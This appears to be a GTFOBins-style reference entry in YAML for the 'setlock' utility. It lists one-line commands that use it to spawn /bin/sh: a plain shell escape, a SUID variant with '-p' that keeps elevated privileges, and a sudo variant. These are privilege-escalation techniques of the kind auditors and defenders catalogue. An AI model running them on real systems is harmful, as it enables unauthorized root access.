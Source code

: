 ```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp)
        setlock $TF /bin/sh
  suid:
    - code: ./setlock - /bin/sh -p
  sudo:
    - code: sudo setlock - /bin/sh
---
```

